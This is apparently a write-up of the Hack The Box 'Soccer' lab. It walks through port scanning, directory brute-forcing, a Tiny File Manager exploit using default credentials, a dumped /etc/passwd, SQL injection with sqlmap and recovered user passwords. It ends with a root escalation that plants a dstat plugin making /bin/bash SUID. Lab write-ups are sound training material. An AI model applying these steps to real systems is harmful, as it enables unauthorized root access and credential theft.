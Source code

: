 # Soccer - Hack the Box

## Information gathering


### Nmap

`nmap -sC -sV 10.10.11.194 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-05 20:30 EST
Nmap scan report for 10.10.11.194
Host is up (0.052s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Fri, 06 Jan 2023 01:36:46 GMT
|     Connection: close`


### Go Buster


> gobuster dir -u http://soccer.htb -w /opt/SecLists/Discovery/Web-Content/directory-list-1.0.txt -t 50 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/05 20:53:50 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 141653 / 141709 (99.96%)
===============================================================
2023/01/05 20:57:22 Finished
===============================================================
`

We found a cool hidden directory. http://soccer.htb/tiny/
And when we go to this webpage we're presented with a login screen for "Tiny File Manager" by H3k
Let's search up and see if that means anything
We viewed the page source to find the version is 2.4.3
Luck for us there is a CVE Exploit on Github for this version:

https://github.com/febinrev/tinyfilemanager-2.4.3-exploit

`$ cat /etc/passwd                                                            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
player:x:1001:1001::/home/player:/bin/bash
mysql:x:113:121:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:997:997::/var/log/laurel:/bin/false
`
http://soccer.htb/tiny/ direcotory has a vulnerable login page with default creds
Username admin Password admin@123

### Grab Foothold


> python3 -c "import pty;pty.spawn('/bin/bash')" 
Elevate the session to a true bash session


> sqlmap -u “http://localhost:8081/?id=1" -p “id”
User with python script in ~/Documents/htb_pentesting/htb_soccer


username: player
password: PlayerOftheMatch2022
id: 1324
email: player@player.htb

### Escalate privileges

```
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
player@soccer:/usr/local/share/dstat$
```

```
player@soccer:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
player@soccer:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
694**************************8b4
bash-5.0#

```